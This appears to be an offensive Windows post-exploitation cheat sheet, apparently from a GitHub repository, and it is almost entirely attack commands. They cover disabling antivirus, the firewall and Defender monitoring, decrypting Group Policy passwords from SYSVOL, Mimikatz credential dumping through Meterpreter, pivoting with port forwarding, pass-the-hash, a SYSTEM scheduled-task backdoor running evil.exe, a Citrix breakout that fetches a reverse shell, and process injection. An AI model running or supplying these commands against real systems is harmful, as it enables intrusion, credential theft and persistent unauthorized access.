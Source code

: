 ```whoami```

```net user /whoami```

```whoami /priv```

```ipconfig```

```systeminfo```

> **ALERT**: Set up persistence. See RTFM Page ???

```wesng```

What architecture?

Run enum script

Upload accesschk if not present

Run Batch or PS scripts

#### Identify  IP and name of internal DC ####

##### Map DC drive to local #####

```net use z: \\$dc\sysvol```

```z:```
##### Search for interesting files #####

```dir /s Groups.xml```

##### If getting this far, copy to local and decrypt #### 

```gpp-decrypt $hash```

#### AV Running? I can killz?

```tasklist /svc```

```tasklist /svc | find /I “avg”```

##### Powershell #####

```Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct  -ComputerName $name```

##### Batch #####

```wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayNamed```

```sc stop $process```

```sc config "service name" start= disabled```

```taskkill /F /IM $avprocess.exe```

```net stop “service name"```

#### Command Execution Restrictions ####

Check lolbas

##### rundll32? #####

```rundll32 $full_path_to_evil.dll,EntryPoint```

or 

```rundll32 $full_path_to_evil.dll,0```


##### FW? #####

```netsh firewall show opmode```

```netsh firewall set opmode mode=disable```


##### Stop WInDefend Monitoring #####

```Set-MpPreference -DisableRealtimeMonitoring $true```

##### Migrate Meterpreter 32 -> 64 bit

meterpreter: ```ps -S "winlogon"```

meterpreter: ```migrate $new_pid```

##### Mimikatz

meterpreter: ```load mimikatz```

meterpreter: ```msv```

meterpreter: ```kerberos```

### Pivot ###

#### netsh ####

```netsh advfirewall firewall show rule name=all | find "Rule Name:" | find "$NameLookingFor"```

```netsh interface portproxy add v4tov4 listenport=8001 connectport=9001 connectaddress=127.0.0.1```

```netstat -ano | findstr :9001```

#### Meterpreter 

1. Note IP address

2. Exit shell

3. Background Meterpreter

4. ```route add 10.10.0.0 255.255.255.0 $sessionNumber```

NOTE: *10.10.0.0 indicates the target internal network*

5. Reconnect to session

6. portfwd add -l $local_port -p $remote_port -r $target_ip 

##### Pass the Hash (PTH)

1. Acquire password

2. Get winexe

3. Set up port forward if required

4. ```Kali:~# winexe -U $username%password //127.0.0.1 "cmd"```

#### Once Admin Set Up Persistent Backdoor

NOTE: *pwn == Task name*

```schtasks /create /ru SYSTEM /sc minute /MO 10 /tn $pwn /tr "\C:\evil.exe""```

```C:\ exit```

```meterpreter: portfwd delete -l $local_port -p $remote_port -r $target_ip ```

```background```

Start new handler and wait

#### Citrix

Login

What apps are available?

Open other programs?

##### Example: Internet Explorer #####

Click Help

Open notepad

Save 'powershell' to .bat file

Use Notepad again to open .bat (Run it)

Download new reverse shell

Handle with meterpreter

#### Elevate Existing Process via privesc exploit

Get meterpreter pid

```meterpreter: getpid```

```meterpreter: execute -H -f evil.exe -p "-pid $pid"```

